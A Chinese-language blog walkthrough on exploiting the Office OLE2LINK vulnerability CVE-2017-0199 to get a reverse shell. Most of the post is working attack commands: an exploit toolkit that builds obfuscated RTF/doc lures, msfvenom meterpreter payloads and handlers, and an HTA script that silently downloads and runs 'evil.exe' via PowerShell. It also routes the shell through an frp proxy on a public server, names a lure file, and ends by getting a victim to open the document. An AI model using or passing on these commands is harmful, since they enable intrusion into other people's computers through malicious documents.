



前言
啊毕业酒会完写文章好晕！
FireEye上个月公布了一个OFFICE 0day，打开Word文档就可以通过HTA脚本执行任意代码。
可能刚开始看有点乱，简单看一下攻击原理
1.攻击者向目标用户发送一个嵌入了OLE2LINK对象的Word文档。 2.当用户打开文档之后，winword.exe会向远程服务器发送一个HTTP请求，并获取一个恶意HTA(HTML Application)文件，通过网络更新对象时没有正确处理的Content-Type导致HTA执行。 3.Winword.exe会通过一个COM对象来查询HTA文件处理器，而这一行为将会使微软HTA应用（mshta.exe）加载并执行恶意HTA文件。
复现
复现的步骤，用VBScript编写HTA，把HTA链接插入word文档，在靶机上打开。 我觉得我没必要重写了，这篇文章写的非常详细。 OFFICE OLE2LINK（CVE-2017-0199）漏洞利用详解
Exploit toolkit CVE-2017-0199
git clone https://github.com/bhdresh/CVE-2017-0199
推荐这个工具，不需要搭建服务器，直接用socket模块模拟服务器，非常方便。 默认只能运行exe的payload，首先生成文档，后缀名随意。rtf也行，doc也行。 参数-u 就是我们用的payload地址，据说后缀名用doc是为了bypass av。 加 -x 参数可以对内容进行混淆。混淆的方式请查阅generate_exploit_obfuscate_rtf函数，主要就是把payloads的uri混淆。
python2 cve-2017-0199_toolkit.py -M gen -w Invoice.rtf -u http://192.168.92.1/logo.doc -x 1
生成Payloads
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.92.1 LPORT=4444 -f exe > /home/gorgias/Tools/malware/rtf32.exe
等待反弹shell
msfconsole -x "use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 192.168.92.1; run"
传输Payloads
运行这段代码，端口默认8080， -p 手动设定端口，加 -H 可以运行指定脚本
sudo python2 cve-2017-0199_toolkit.py -H test.hta -M exp -e http://192.168.92.1/shell.exe -l /home/gorgias/Tools/malware/rtf64.exe -p 8000
客户端打开目标文档后，默认会运行这段脚本
a=new ActiveXObject("WScript.Shell");
a.run('%SystemRoot%/system32/WindowsPowerShell/v1.0/powershell.exe -windowstyle hidden (new-object System.Net.WebClient).DownloadFile(\'http://yourpayloads.com/evil.exe\', \'c:/windows/temp/shell.exe\'); c:/windows/temp/shell.exe', 0);window.close();
</script>
MSF Module
可以使用这个exploit模块:office_word_hta来实现攻击。 但是使用场景有限，因为这个模块太自动化了，从生成payload到使用handler都是自动配置，payload的反弹ip是固定的，不能用内网穿透的办法渗透外网主机，需要改造。
msf > use exploit/windows/fileformat/office_word_hta
查看选项，描述都很准确，选项很少，配置简单。
msf exploit(office_word_hta) > options
Module options (exploit/windows/fileformat/office_word_hta):
Name Current Setting Required Description
---- --------------- -------- -----------
FILENAME msf.doc yes The file name.
SRVHOST 0.0.0.0 yes The local host to listen on. This must be an address on the local machine or 0.0.0.0
SRVPORT 8080 yes The local port to listen on.
SSL false no Negotiate SSL for incoming connections
SSLCert no Path to a custom SSL certificate (default is randomly generated)
URIPATH default.hta yes The URI to use for the HTA file
Exploit target:
Id Name
-- ----
0 Microsoft Office Word
直接run或者exploit就好，会自动切到后台，hta和doc都给你生成好了。直接把doc放在靶机打开就行。
msf exploit(office_word_hta) > exploit
[*] Exploit running as background job.
msf exploit(office_word_hta) >
[*] Started reverse TCP handler on 192.168.1.177:4444
[+] msf.doc stored at /home/gorgias/.msf4/local/msf.doc
[*] Using URL: http://0.0.0.0:8080/default.hta
[*] Local IP: http://192.168.1.177:8080/default.hta
[*] Server started.
实战
这里展示如何穿透内网来实现攻击，首先找一台服务器安装frp，代理本地payload和reverse_shell端口。 安装方法见FRP 使用笔记 frp参数
[rev]
privilege_mode = true
type = tcp
local_ip = 0.0.0.0
local_port = 4445
remote_port = 4445
使用msfvenom生成hta的payload，我们这里用powershell的类型，用base64进行混淆
msfvenom -p windows/meterpreter/reverse_tcp LHOST=45.32.42.185 LPORT=4445 -e cmd/powershell_base64 -f hta-psh > /home/gorgias/Tools/malware/frp.hta
等待反弹
msfconsole -x "use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 0.0.0.0; set LPORT 4445; run"
生成文档
python2 cve-2017-0199_toolkit.py -M gen -w 王师傅的照片.doc -u http://frp.gorgiaxx.me:8000/photo.doc -x 1
用了自定义hta的话就不一定要使用exe的payload了。直接监听端口
sudo python2 cve-2017-0199_toolkit.py -M exp -H frp.hta -p 8080
 然后让电脑装有目标版本office的受害者打开这个doc 就能获取会话  
Reference
CVE-2017-0199——首个Microsoft Office RTF漏洞
OFFICE OLE2LINK（CVE-2017-0199）漏洞利用详解
Windows attacks via CVE-2017-0199 – Practical exploitation! (PoC)